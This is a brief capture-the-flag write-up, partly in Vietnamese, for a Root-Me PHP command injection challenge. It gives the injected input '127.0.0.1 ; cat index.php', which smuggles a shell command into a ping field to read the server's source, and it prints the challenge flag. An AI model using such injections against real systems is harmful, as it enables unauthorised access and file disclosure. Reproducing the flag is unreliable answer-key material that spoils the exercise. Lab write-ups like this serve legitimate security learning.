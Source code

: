 # PHP- Command injection

```HTML
 *** Link :http://challenge01.root-me.org/web-serveur/ch54/
```

## Request

![](request.png)

![](sc.png)

## Solution

```HTML
***  Do input chưa có filter nên dễ dàng chèn các câu lệnh command thực thi vào như cat, ls, ...
    Vì : flag nằm trong file index.php, nên ta sẽ dùng câu lệnh cat để đọc file

```

#### Step1: Nhập : 127.0.0.1 ; cat index.php

![](result1.png)

#### Step2: Tìm trong source

![](source.png)

```HTML
*** Vậy flag: S3rv1ceP1n9Sup3rS3cure

```
